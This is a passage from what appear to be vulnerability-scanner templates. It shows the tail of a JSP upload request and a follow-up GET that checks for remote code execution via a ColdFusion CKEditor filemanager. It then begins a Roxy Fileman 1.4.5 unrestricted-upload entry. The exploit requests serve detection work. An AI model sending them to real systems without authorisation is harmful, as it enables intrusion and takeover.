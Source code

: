 ```
for (int i=0;i<digest.length;i++){
  hx =  Integer.toHexString(0xFF & digest[i]);
  if(hx.length() == 1){hx = "0" + hx;}
  hashedpasswd.append(hx);
}
out.println(hashedpasswd.toString());
%>
-----------------------------24464570528145
Content-Disposition: form-data; name="path"

{{randstr}}.jsp
-----------------------------24464570528145--

```

### Step - 2

```
GET /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/{{randstr}}.jsp HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- words
  1. ddbb3e76f92e78c445c8ecb392beb225

**Type - status**

- status
  1. 200

---

# Roxy Fileman 1.4.5 - Unrestricted File Upload

## Description

- Roxy Fileman 1.4.5 is susceptible to unrestricted file upload via upload.php. An attacker can execute malware, obtain sensitive information, modify data, and/or gain full control over a compromised system without entering necessary credentials.

- severity - critical
- tags - cve,cve2018,roxy,fileman,rce,fileupload,intrusive,packetstorm,edb

## Requests

### Step - 1
